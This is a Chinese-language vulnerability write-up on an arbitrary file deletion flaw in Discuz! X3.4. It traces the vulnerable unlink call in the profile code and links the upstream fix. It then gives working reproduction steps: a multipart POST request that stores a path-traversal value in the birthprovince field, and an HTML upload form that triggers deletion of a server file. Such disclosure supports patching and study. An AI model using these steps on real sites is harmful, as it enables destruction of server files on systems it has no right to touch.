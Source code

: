 ```yaml
---
title: "Discuz!x 3.4 任意文件删除漏洞"
id: zhfly2877
---
```


# Discuz! X3.4 任意文件删除漏洞

## 一、漏洞简介

## 二、漏洞影响

影响版本：Discuz!x ≤3.4

## 三、复现过程

### 漏洞分析

Discuz!X的码云已经更新修复了该漏洞

https://gitee.com/ComsenzDiscuz/DiscuzX/commit/7d603a197c2717ef1d7e9ba654cf72aa42d3e574

核心问题在`upload/source/include/spacecp/spacecp_profile.php`

![image](../img/57551e2d43071499ca210847db70a756.png)

跟入代码70行

```
if(submitcheck('profilesubmit')) { 
```

当提交profilesubmit时进入判断，跟入177行

![image](../img/ca90335404595aec76e7c392e10aa4e9.png)

我们发现如果满足配置文件中某个formtype的类型为file，我们就可以进入判断逻辑，这里我们尝试把配置输出出来看看

![image](../img/4325367ebfcb597701ecb0f769230e75.png)

我们发现formtype字段和条件不符，这里代码的逻辑已经走不进去了

我们接着看这次修复的改动，可以发现228行再次引入语句unlink

```
@unlink(getglobal('setting/attachdir').'./profile/'.$space[$key]); 
```

回溯进入条件

![image](../img/432baa7253978eb11c1e598db4c10b37.png)

当上传文件并上传成功，即可进入unlink语句

![image](../img/aba7b29dc6a3b7896a1db6208e946d9b.png)

然后回溯变量`$space[$key]`,不难发现这就是用户的个人设置。

只要找到一个可以控制的变量即可，这里选择了birthprovince。

在设置页面直接提交就可以绕过字段内容的限制了。

![image](../img/34fd972f226f0b825a82f903d6200d6b.png)

成功实现了任意文件删除

### 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![image](../img/c8238ef495c148b0e9f727efb707d74e.png)

注册用户后，在个人设置页面找到自己的formhash：

![image](../img/412990f05929e28289e588e55b41ef7a.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“formhash”

[your formhash]

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“birthprovince”

…/…/…/robots.txt

------WebKitFormBoundaryPFvXyxL45f34L12s

Content-Disposition: form-data; name=“profilesubmit” `1

------WebKitFormBoundaryPFvXyxL45f34L12s–` 
```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![image](../img/8ad3aa07d22cc7cec869b6932601f184.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body> 
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![image](../img/edb2ec063a920a2c19995313433d625d.png)